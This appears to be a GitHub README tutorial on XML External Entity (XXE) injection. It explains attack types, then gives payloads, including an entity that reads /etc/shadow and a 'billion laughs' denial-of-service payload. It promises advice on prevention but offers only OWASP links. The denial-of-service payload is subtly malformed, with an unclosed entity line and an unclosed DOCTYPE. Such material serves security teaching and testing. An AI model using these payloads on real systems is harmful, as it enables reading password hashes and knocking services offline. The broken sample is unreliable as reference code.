 ### XML External Entity (XXE) Injection

In this section, we'll explain what XML external entity injection is, describe some common examples, explain how to find and exploit various kinds of XXE injection, and summarize how to prevent XXE injection attacks. 

#### What is XML external entity injection?

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any backend or external systems that the application itself can access.

In some situations, an attacker can escalate an XXE attack to compromise the underlying server or other backend infrastructure, by leveraging the XXE vulnerability to perform server-side request forgery (SSRF) attacks. 

<p align="center"> 
<img src="/Image/xxe-injection.jpg">
</p>

There are various types of XXE attacks: 

|XXE Attack Type               |Description                          |
|----------------|-------------------------------|
|Exploiting XXE to Retrieve Files| Where an external entity is defined containing the contents of a file, and returned in the application's response. |
|Exploiting XXE to Perform SSRF Attacks| Where an external entity is defined based on a URL to a back-end system. |
|Exploiting Blind XXE Exfiltrate Data Out-of-Band| Where sensitive data is transmitted from the application server to a system that the attacker controls. |
|Exploiting blind XXE to Retrieve Data Via Error Messages | Where the attacker can trigger a parsing error message containing sensitive data. |

##### XML External Entity (XXE) Injection Payloads

###### XXE: Basic XML Example

```
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo>
```

###### XXE: Entity Example

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

###### XXE: File Disclosure

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

###### XXE: Denial-of-service Example

```
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<tag>&lol9;</tag>
 ```
 
 #### References :
 
👉 [XML External Entity (XXE) Processing](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing)

👉 [XML External Entity Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html) 

👉 [Testing for XML Injection (OTG-INPVAL-008)](https://www.owasp.org/index.php/Testing_for_XML_Injection_(OTG-INPVAL-008))
